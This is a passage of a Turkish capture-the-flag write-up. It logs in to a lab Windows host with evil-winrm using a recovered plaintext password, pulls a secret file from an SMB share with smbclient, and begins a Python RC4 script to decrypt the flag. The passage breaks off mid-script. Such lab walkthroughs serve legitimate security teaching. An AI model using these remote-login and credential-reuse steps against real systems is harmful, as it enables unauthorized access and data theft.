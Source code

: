 ```
Elde ettiğimiz şifre ve kullanıcı adı ile sisteme bağlanıyoruz.
```
evil-winrm -i 172.31.210.72 -u b.avci -p '*PUp1qzW'
```
Sonra kullanıcı içerisinde 2 dosya olduğunu görüyoruz 
```
-a----         3/15/2025   1:00 AM            113 flagimsi.txt
-a----         3/15/2025  12:44 AM          25280 legacy.out
```
Bu dosyaları okuttuğumuzda flagimsi.txt içerisinde flagin ```5c 36 e9 cb 6a 28 4b 7c 39 72 84 49 f5 f7 0f 12 c7 d6 7d a3 c6 53 e2 3c 44 20 53 87 9b e8 c3 0e e5 03 ba 7c 6e 3b``` byte'lar ile şifrelenmiş olduğunu görüyoruz. Ardından legacy.out klasörünü disassembly ettiğimizde.

![](img/Legacy_out.png)

**Flag** ve **Secret** değerlerinin beraber RC4 ile şifrelendiğini görüyoruz. Bunun için önce secret değerini bulmalıyız secret değerinide **SMB** klasöründeki ilk kullanıcı bilgilerimiz ile erişemediğimiz ```Labyrinth``` klasöründen elde ediyoruz.
```
smbclient -U b.avci //172.31.210.72/Labyrinth
Password for [WORKGROUP\b.avci]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Mar 15 09:17:52 2025
  ..                                DHS        0  Sat Mar 15 07:49:18 2025
  Secret.txt                        A       53  Sat Mar 15 11:15:08 2025

                20806911 blocks of size 4096. 17559364 blocks available
smb: \> get Secret.txt
getting file \Secret.txt of size 53 as Text.txt.txt (17.3 KiloBytes/sec) (average 17.3 KiloBytes/sec)
```
Ardından **Secret** değerimizi elde ediyoruz.
```
cat Secret.txt          
Bulabilirdin mi gizli bölgeyi
secret=YuruyenTeyyare
```
Buradan sonra elimizdeki byte değerleri ve secret'ı içeren **RC4** ile elimizdeki şifreyi aşağıdaki kod ile kırıyoruz
```
from Crypto.Cipher import ARC4
import binascii

# Verilen şifreli veri
encrypted_hex = "5c36e9cb6a284b7c39728449f5f70f12c7d67da3c653e23c442053879be8c30ee503ba7c6e3b"
# Anahtar
key = "YuruyenTeyyare"

# HEX veriyi byte dizisine çevir
encrypted_data = binascii.unhexlify(encrypted_hex)
